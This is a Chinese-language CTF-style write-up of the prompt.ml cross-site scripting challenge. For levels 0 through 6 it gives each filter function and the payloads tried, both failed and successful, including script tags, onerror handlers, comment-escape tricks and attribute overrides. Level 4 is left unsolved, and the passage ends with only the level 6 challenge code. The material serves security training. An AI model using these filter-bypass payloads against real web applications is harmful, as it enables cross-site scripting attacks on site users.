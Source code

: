 # [Prompt.ml](https://prompt.ml) 实验 writeup

## 0
```js
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
}      
```

注入点在于input标签内的value属性，即`'<input type="text" value="' + input + '">'`

所以注入：`"><script>prompt(1)</script>`.

## 1
过滤函数为：
```js
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}    
```
js中的正则表达式有两种形式：
- 使用一个正则表达式字面量，其由包含在斜杠之间的模式组成 ，例如：`var re = /ab+c/;`；
- 或者调用RegExp对象的构造函数,例如：`var re = new RegExp("ab+c");` 

上面的正则表达式，将 <...> 和</...> 不区分大消息全被过滤为空字符。显然需要可以使用html实体编码来绕过。

html实体编码：
- `&lt;` 或 `&#60;` 表示 < ；
- `&gt;`	`&#62;` 表示 >	大于号

尝试注入：`&#60;script&#62;prompt(1)&#60;/script&#62;` 不成。
尝试注入：`<img src="1" onerror="prompt(1)"`，成功。
尝试注入：`<body onload="prompt(1)"\\`，成功

## 2
```js
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}    
```

正则是替换了 = 和 ( 为空字符。

`&lpar;`表示（

不成功的尝试：
```
<script>prompt`1`</script>
&lt;script&gt;prompt&#40;1&#41;&lt;/script&gt;
<svg onload&#61;prompt`1`>
<body onload&#61;prompt`1`>
<img src=1 onerror&#61;prompt`1`>

```
但有趣的是注入下列语句能弹出alert：

```
<script>alert`1`</script>
```
尝试下列成功:
```
<svg><script>prompt&#40;1)</script>
<svg><script>prompt&#x28;1);</script>
<script>eval.call`${'prompt\x281)'}`</script>
```

## 3 
```js
function escape(input) {
    // filter potential comment end delimiters
    input = input.replace(/->/g, '_');

    // comment the input to avoid script execution
    return '<!-- ' + input + ' -->';
}
```

过滤函数将 - ， >转为_ ,并将输入内容全部置入注释中。

尝试失败的payload：
```
--&gt;<svg><script>prompt(1)</script><!--
\x2d\x2d\x3E<body onload="prompt(1)"><!--1
-&#x2D;><script>eval.call`${'prompt\x281)'}`</script><!--1
&#x2d;&#x2d;&#x3E;<script>eval("prompt(1)");</script><!--1
```

尝试下列成功：
```
--!><script>eval("prompt(1)");</script><!--1
1--!><img src=1 onerror="prompt(1)"><!--12
--!><svg><script>prompt(1);</script>
```

看来注释的封闭只需要两个`--`，而不是强制要求`-->`

## 4
```js
function escape(input) {
    // make sure the script belongs to own site
    // sample script: http://prompt.ml/js/test.js
    if (/^(?:https?:)?\/\/prompt\.ml\//i.test(decodeURIComponent(input))) {
        var script = document.createElement('script');
        script.src = input;
        return script.outerHTML;
    } else {
        return 'Invalid resource.';
    }
}       
```

decodeURIComponent() 函数可对 encodeURIComponent() 函数编码的 URI 进行解码。
  

尝试下列payload 失败：
```
http://prompt.ml/js/test.js%22><script>prompt(1);</script>%22
```

http%3A%2F%2Fprompt.ml%2Fjs%2Ftest.js%22%3E%3Cscript%3Eprompt(1)%3C%2Fscrip%3E


http://prompt.ml%2f@github.com/hhhparty/security/blob/master/courses/webtestguide/labs/prompt.js


<script src="https://github.com/HDH-AISEC/HDH-AISEC.github.io/tree/master/projects/atest/prompt.js"></script>


这个题还没做出来，可能需要一个公网可访问的网站，访问prompt.js

## 5

题目：
```js
function escape(input) {
    // apply strict filter rules of level 0
    // filter ">" and event handlers
    input = input.replace(/>|on.+?=|focus/gi, '_');

    return '<input value="' + input + '" type="text">';
}      
```

正则式转义了 `> onxx focus`等为 _。

尝试失败的例子：
```
k"&#x3e;<iframe src="javascript:prompt(1)"&#x3e;<img a=" 
k"&#x3e;<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCg3KTwvc2NyaXB0Pg"&#x3e;<img a=" 
```

看了别人的writeup，html input 标签的type类型可以有：`button checkbox file hidden image password radio reset submit text`
通过覆盖type 和 换行来解决过滤。

尝试下列payload成功：
```
" type="image" src onerror=
(prompt(1))
```
注意：`<img>` 标签有两个必需的属性：src 属性 和 alt 属性。不写src是不行的。

## 6

```
function escape(input) {
    // let's do a post redirection
    try {
        // pass in formURL#formDataJSON
        // e.g. http://httpbin.org/post#{"name":"Matt"}
        var segments = input.split('#');
        var formURL = segments[0];
        var formData = JSON.parse(segments[1]);

        var form = document.createElement('form');
        form.action = formURL;
        form.method = 'post';

        for (var i in formData) {
            var input = form.appendChild(document.createElement('input'));
            input.name = i;
            input.setAttribute('value', formData[i]);
        }

        return form.outerHTML + '                         \n\
            <script>                                                  \n\
                // forbid javascript: or vbscript: and data: stuff    \n\
                if (!/script:|data:/i.test(document.forms[0].action)) \n\
                    document.forms[0].submit();                       \n\
                else                                                  \n\
                    document.write("Action forbidden.")               \n\
            </script>                                                 \n\
        ';
    } catch (e) {
        return 'Invalid form data.';
    }
}        
```